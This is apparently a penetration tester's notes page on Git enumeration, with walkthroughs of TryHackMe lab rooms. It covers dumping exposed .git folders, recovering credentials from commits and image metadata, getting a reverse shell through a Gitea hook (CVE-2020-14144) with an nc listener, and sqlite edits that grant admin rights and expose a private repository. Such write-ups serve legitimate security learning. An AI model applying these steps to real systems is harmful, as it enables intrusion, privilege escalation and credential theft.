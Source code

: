 # Git

## Enumeration

#### DotGit Web Browser Extension

An extension for checking if .git is exposed in visited websites.

#### git

```bash
git branch  # Check for available branches to switch to
git checkout <BRANCH>  # Checkout a specified branch
git status  # Show the working tree status
git log  # Show commit logs
git log --pretty=oneline  # Show commit logs in prettyfied mode
git show <COMMIT HASH>  # View the commit contents
```

#### GitTools

[https://github.com/internetwache/GitTools](https://github.com/internetwache/GitTools)

```bash
# Dump Git files from a website
/opt/GitTools/Dumper/gitdumper.sh http://pwd.harder.local/.git/ .
# Recover delete files mentioned via git status
/opt/GitTools/Extractor/extractor.sh ~/ctf/thm/harder/pwd_harder_local/git/ extracted/

```

#### tig

[https://github.com/jonas/tig](https://github.com/jonas/tig)

## Examples

### TryHackMe

#### Git Happens

* Opened website in a browser
* DotGit extension automatically identified .git extension
  * view-source:http://10.10.60.56/.git/config
  * Downloaded all the files found in the .git folder
* Unzipped files and navigated into the directory containing the .git folder
* Viewed the git logs
  * `git log`
  * `git log --pretty=oneline`
* Viewed the specific commits in the logs
  * `git show <COMMIT ID>`
  * `git show e56eaa8e29b589976f33d76bc58a0c4dfb9315b1`
* Found cleartext credentials to login where the password was also the flag

```javascript
-      function login() {
-        let form = document.getElementById("login-form");
-        console.log(form.elements);
-        let username = form.elements["username"].value;
-        let password = form.elements["password"].value;
-        if (
-          username === "admin" &&
-          password === "Th1s_1s_4_L0ng_4nd_S3cur3_P4ssw0rd!"
-        ) {
-          document.cookie = "login=1";
-          window.location.href = "/dashboard.html";
-        } else {
-          document.getElementById("error").innerHTML =
-            "INVALID USERNAME OR PASSWORD!";
-        }
-      }
```

#### Git and Crumpets

Used `curl` against the host on port 80 which showed us a 301 permanent redirect

`curl -v http://10.10.135.79`

The output also mentioned setting up repos at git.git-and-crumpets.thm as adding that to the /etc/hosts file

Opened git.git-and-crumpets.thm in a browser.

Registered for an account.

Viewed publicly available repos and their commits.

Found message for commit `9a151a065797e3ae8e4d86da9d32d032cdec6885` that the user mentioned "I kept the password in my avatar to be more secure."

Downloaded the avatar.

`wget http://git.git-and-crumpets.thm/avatars/3fc2cde6ac97e8c8a0c8b202e527d56d`

Used exiftool to get information out of the .png file and found a potential password.

```bash
exiftool 3fc2cde6ac97e8c8a0c8b202e527d56d.png 
...
Description    : My 'Password' should be easy enough to guess
```

Logged into the Gitea UI as the scones user: `scones:Password`

Now I can modify the Settings for the repository scones/cant-touch-this

#### Exploitation (CVE-2020-14144)

I can modify the Git Hooks be placing in a reverse shell into the post-receive hook.

Started a nectat listener: `sudo nc -lvnp 443`

Modified README.md, committed the changes, and got a reverse shell as the git user.

The database data is located in `/var/lib/gitea/data`

We can change the permissions for the scones user to access the root repository or change the root repository permissions to be public.

#### Change the Scones user permissions

```sql
sqlite3 gitea.db
select * from user;
1|hydra|hydra||hydragyrum@example.com|0|enabled|9b020d3e158bc31b5fe64d668d94cab38cadc6721a5fdf7a4b1fb7bf97021c5e68f56bd9bd44d5ce9547e5e234086342c4e4|pbkdf2|0|0|0||0|||XGySX7uBlc|3C4NzJWN9e|en-US||1618386984|1621615239|1621614217|0|-1|1|1|0|0|0|0|0|d91f03c868d38ecf84ab3cc54f876106|hydragyrum@example.com|1|0|0|0|1|0|0|0|0|unified|arc-green|0
2|root|root|groot|root@example.com|0|enabled|2181d2b5fbf1859db426bcb94d97851d9a0e87a5eb47c5edc7f92bffc45b679e554c8367084f379e59936b68c0d770823ec9|pbkdf2|0|0|0||0|||2VK8fSxvIZ|5e5xPrzvBr|en-US||1618391049|1621716065|1621716065|1|-1|1|0|1|0|0|0|0|b2b218891f86ea980812a5b934ecec1a|root@examle.com|1|0|0|0|1|0|0|0|0|unified|gitea|0
3|scones|scones||withcream@example.com|0|enabled|8d0386b217e0f1ad5a1012d879ce93c9d77fd79d888410fdee9e76ec58d6fa017042906dd9a2ea498d3fd5a7486a73875660|pbkdf2|0|0|0||0|Her Majesty's Secret Service||IF60pw0rVc|13y4Vtc2AH|en-US|I like scones.|1618492621|1625292211|1625292211|0|-1|1|0|0|1|0|0|0|3fc2cde6ac97e8c8a0c8b202e527d56d|jackel@example.com|1|0|0|0|1|0|0|0|0|unified|gitea|0
4|test|test||test@test.thm|0|enabled|d3463d9c205751364af7850bca7956d0f5cc0eb125a097db54fd0087eec31cec1912245e57fdfc53423a89e6684a15f8939a|pbkdf2|0|0|0||0|||oe4oKzc3mk|EgtShiimON|en-US||1618526457|1618526530|1618526457|0|-1|1|0|0|0|0|0|0|15c9bc2cfbc7b7fd0b627422d8189173|test@test.thm|0|0|0|0|0|0|0|0|0|unified|gitea|0
5|user101|user101||test@mail.com|0|enabled|7233dc67184372521c3e39c824016db859d608025ad5a731f1dbed0d399753c17de21921618a385804ddc6bc57893049d555|pbkdf2|0|0|0||0|||BFMsu8xkcI|mameP7va9K|en-US||1625291416|1625291644|1625291416|0|-1|1|0|0|0|0|0|0|97dfebf4098c0f5c16bca61e2b76c373|test@mail.com|0|0|0|0|0|0|0|0|0|unified|gitea|0

UPDATE user SET is_admin=1 WHERE id=3;
```

#### Change the root repository permissions

```sql
sqlite3 gitea.db
SELECT * FROM repository;
1|1|hydra|hello-world|hello-world|Hello World||0||master|1|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|23159|1|0|null|0||1618390571|1618491347
2|2|root|backup|backup|||0||master|1|0|0|0|0|0|0|0|0|0|0|1|0|0|0|0|0|0|0|0|25612|1|0|null|0||1618493101|1618494415
3|3|scones|cant-touch-this|cant-touch-this|Stop! Hammer time!||0||master|1|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|23712|1|0|null|0||1618494644|1618496989
SELECT sql FROM sqlite_master WHERE type='table' AND tbl_name='repository';
CREATE TABLE `repository` (`id` INTEGER PRIMARY KEY AUTOINCREMENT NOT NULL, `owner_id` INTEGER NULL, `owner_name` TEXT NULL, `lower_name` TEXT NOT NULL, `name` TEXT NOT NULL, `description` TEXT NULL, `website` TEXT NULL, `original_service_type` INTEGER NULL, `original_url` TEXT NULL, `default_branch` TEXT NULL, `num_watches` INTEGER NULL, `num_stars` INTEGER NULL, `num_forks` INTEGER NULL, `num_issues` INTEGER NULL, `num_closed_issues` INTEGER NULL, `num_pulls` INTEGER NULL, `num_closed_pulls` INTEGER NULL, `num_milestones` INTEGER DEFAULT 0 NOT NULL, `num_closed_milestones` INTEGER DEFAULT 0 NOT NULL, `num_projects` INTEGER DEFAULT 0 NOT NULL, `num_closed_projects` INTEGER DEFAULT 0 NOT NULL, `is_private` INTEGER NULL, `is_empty` INTEGER NULL, `is_archived` INTEGER NULL, `is_mirror` INTEGER NULL, `status` INTEGER DEFAULT 0 NOT NULL, `is_fork` INTEGER DEFAULT 0 NOT NULL, `fork_id` INTEGER NULL, `is_template` INTEGER DEFAULT 0 NOT NULL, `template_id` INTEGER NULL, `size` INTEGER DEFAULT 0 NOT NULL, `is_fsck_enabled` INTEGER DEFAULT 1 NOT NULL, `close_issues_via_commit_in_any_branch` INTEGER DEFAULT 0 NOT NULL, `topics` TEXT NULL, `trust_model` INTEGER NULL, `avatar` TEXT NULL, `created_unix` INTEGER NULL, `updated_unix` INTEGER NULL)

UPDATE repository SET is_private=0 WHERE id=2;
SELECT * FROM repository;
1|1|hydra|hello-world|hello-world|Hello World||0||master|1|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|23159|1|0|null|0||1618390571|1618491347
2|2|root|backup|backup|||0||master|1|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|25612|1|0|null|0||1618493101|1618494415
3|3|scones|cant-touch-this|cant-touch-this|Stop! Hammer time!||0||master|1|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|24715|1|0|null|0||1618494644|1618702858
```

Back in the Gitea UI we now have access to the root / backup git repository

Switching Branch to dotfiles we find a SSH Private Key and the file it is in is the name of the passphrase for logging in via SSH with the private key.

#### harder

* After finding the subdomain pwd.harder.local and then navigating to it in a browser, the DotGit extension automatically identified .git extension.
* Downloaded all the files found in the .git folder
* Unzipped files and navigated into the directory containing the .git folder
* Viewed the git logs
  * `git log`
  * `git log --pretty=oneline`

Viewed the specific commits in the logs

```bash
kali@kali:~/ctf/thm/harder/pwd_harder_local$ git log --pretty=oneline
9399abe877c92db19e7fc122d2879b470d7d6a58 (HEAD -> master) add gitignore
047afea4868d8b4ce8e7d6ca9eec9c82e3fe2161 add extra security
ad68cc6e2a786c4e671a6a00d6f7066dc1a49fc3 added index.php
```

We see some interesting information the the commit "add extra security"

```bash
git show 047afea4868d8b4ce8e7d6ca9eec9c82e3fe2161
# We find some interesting files: auth.php, hmac.php, secret.php, and credentials .php
```

Also used a script from [GitTools ](https://github.com/internetwache/GitTools)to dump all the files from Git.

```bash
/opt/GitTools/Dumper/gitdumper.sh http://pwd.harder.local/.git/ .
```

When running `git status` we see 4 files that were deleted that look interesting.

We can get these files back again using GitTools

```bash
/opt/GitTools/Extractor/extractor.sh ~/ctf/thm/harder/pwd_harder_local/git/ extracted/
```

## References

{% embed url="https://git-scm.com/docs" %}
